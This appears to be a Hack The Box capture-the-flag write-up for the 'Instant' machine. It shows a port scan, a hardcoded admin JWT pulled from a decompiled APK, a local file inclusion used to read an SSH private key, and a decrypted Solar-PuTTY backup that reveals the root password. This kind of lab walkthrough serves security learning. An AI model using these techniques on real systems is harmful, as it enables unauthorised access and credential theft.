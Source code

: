 # Instant

<figure><img src="../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

## Port scan

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 31:83:eb:9f:15:f8:40:a5:04:9c:cb:3f:f6:ec:49:76 (ECDSA)
|_  256 6f:66:03:47:0e:8a:e0:03:97:67:5b:41:cf:e2:c7:c7 (ED25519)
80/tcp open  http    Apache httpd 2.4.58
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Instant Wallet
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Apk

We do have a option to download apk on the webpage&#x20;

{% embed url="http://instant.htb/downloads/instant.apk" %}

### Static analysis

For static analysis, we can decompile our code. I used following website:

{% embed url="http://www.javadecompilers.com/apk" %}

There's intresting API call under `sources/com/instantlabs/instant/AdminActivities.java`

```java
public class AdminActivities {
    private String TestAdminAuthorization() {
        new OkHttpClient().newCall(new Request.Builder().url("http://mywalletv1.instant.htb/api/v1/view/profile").addHeader("Authorization", "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA").build()).enqueue(new Callback() {
            static final /* synthetic */ boolean $assertionsDisabled = false;

<<SNIP>>

//addHeader("Authorization", "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA").build())
```

Feeding the jwt token to jwt.io, we get values

```json
{
  "id": 1,
  "role": "Admin",
  "walId": "f0eca6e5-783a-471d-9d8f-0162cbc900db",
  "exp": 33259303656
}
```

We can try sending req to see what data we can get through this API,

```bash
╰─➤  curl -s 'http://mywalletv1.instant.htb/api/v1/view/profile' -H 'Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA' | jq 
{
  "Profile": {
    "account_status": "active",
    "email": "admin@instant.htb",
    "invite_token": "instant_admin_inv",
    "role": "Admin",
    "username": "instantAdmin",
    "wallet_balance": "10000000",
    "wallet_id": "f0eca6e5-783a-471d-9d8f-0162cbc900db"
  },
  "Status": 200
}
```

Hmm, not much intresting.

```bash
╰─➤  grep -irl "instant.htb"           
resources/res/7P.xml
resources/res/8G.xml
resources/classes.dex
sources/com/instantlabs/instant/AdminActivities.java
sources/com/instantlabs/instant/TransactionActivity.java
sources/com/instantlabs/instant/LoginActivity.java
sources/com/instantlabs/instant/ProfileActivity.java
sources/com/instantlabs/instant/RegisterActivity.java

╰─➤  cat resources/res/8G.xml | grep htb
        <domain includeSubdomains="true">mywalletv1.instant.htb
        <domain includeSubdomains="true">swagger-ui.instant.htb

```

With this we can find another sub-domain, (VHOST)\


Upon visit we can see it provides API docs for the app

<figure><img src="../../../.gitbook/assets/image (160).png" alt=""><figcaption></figcaption></figure>

### LFI (web)

Logs section is intresting,&#x20;

There are API calls, \
1\. `/api/v1/admin/view/logs`\
2\. `/api/v1/admin/read/log`\
\
After looking at both, we can SEE it's a classic LFI.\
The `read/log` api doc revealed the username,

```javascript
  "FileName": "/home/shirohige/logs/1.log
```

<figure><img src="../../../.gitbook/assets/image (161).png" alt=""><figcaption></figcaption></figure>

Let's grab ssh key,

<figure><img src="../../../.gitbook/assets/image (163).png" alt=""><figcaption></figcaption></figure>

VsCode was really helpful to clean/correct the id\_rsa key

## User shell

```bash
╰─➤  chmod 400 id_rsa       
                                                                                                                                                                                                                                               
╭─kali@dragon ~/stuff/htb/instant/unziped  
╰─➤  ssh shirohige@instant.htb -i id_rsa 
The authenticity of host 'instant.htb (10.129.94.150)' can't be established.
ED25519 key fingerprint is SHA256:r+JkzsLsWoJi57npPp0MXIJ0/vVzZ22zbB7j3DWmdiY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'instant.htb' (ED25519) to the list of known hosts.
Welcome to Ubuntu 24.04.1 LTS (GNU/Linux 6.8.0-45-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
shirohige@instant:~$ id
uid=1001(shirohige) gid=1002(shirohige) groups=1002(shirohige),1001(development)
shirohige@instant:~$ 
```

## Root shell

There's a strange file in `/opt/backups/Solar-puTTY`

<figure><img src="../../../.gitbook/assets/image (164).png" alt=""><figcaption></figcaption></figure>

Upon googling what's the session file for, and it's vulnerabilites, I found this blog (and he's the author of this box)

{% embed url="https://hackmd.io/@tahaafarooq/cracking-solar-putty" %}

Converting the script for C# to python from GPT was easy, with that we can have root data

```javascript
╰─➤  python3 dec.py
{
    "Sessions": [
        {
            "Id": "066894ee-635c-4578-86d0-d36d4838115b",
            "Ip": "10.10.11.37",
            "Port": 22,
            "ConnectionType": 1,
            "SessionName": "Instant",
            "Authentication": 0,
            "CredentialsID": "452ed919-530e-419b-b721-da76cbe8ed04",
            "AuthenticateScript": "00000000-0000-0000-0000-000000000000",
            "LastTimeOpen": "0001-01-01T00:00:00",
            "OpenCounter": 1,
            "SerialLine": null,
            "Speed": 0,
            "Color": "#FF176998",
            "TelnetConnectionWaitSeconds": 1,
            "LoggingEnabled": false,
            "RemoteDirectory": ""
        }
    ],
    "Credentials": [
        {
            "Id": "452ed919-530e-419b-b721-da76cbe8ed04",
            "CredentialsName": "instant-root",
            "Username": "root",
            "Password": "12**24nzC!r0c%q12",
            "PrivateKeyPath": "",
            "Passphrase": "",
            "PrivateKeyContent": null
        }
    ],
    "AuthScript": [],
    "Groups": [],
    "Tunnels": [],
    "LogsFolderDestination": "C:\\ProgramData\\SolarWinds\\Logs\\Solar-PuTTY\\SessionLogs"
}                                              
```

### Root password

```javascript
"Username": "root",
"Password": "12**24nzC!r0c%q12"
```

```bash
shirohige@instant:/opt/backups/Solar-PuTTY$ su - root
Password: 
root@instant:~# id
uid=0(root) gid=0(root) groups=0(root)
root@instant:~# 
```

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_heapbytes' still pwning.
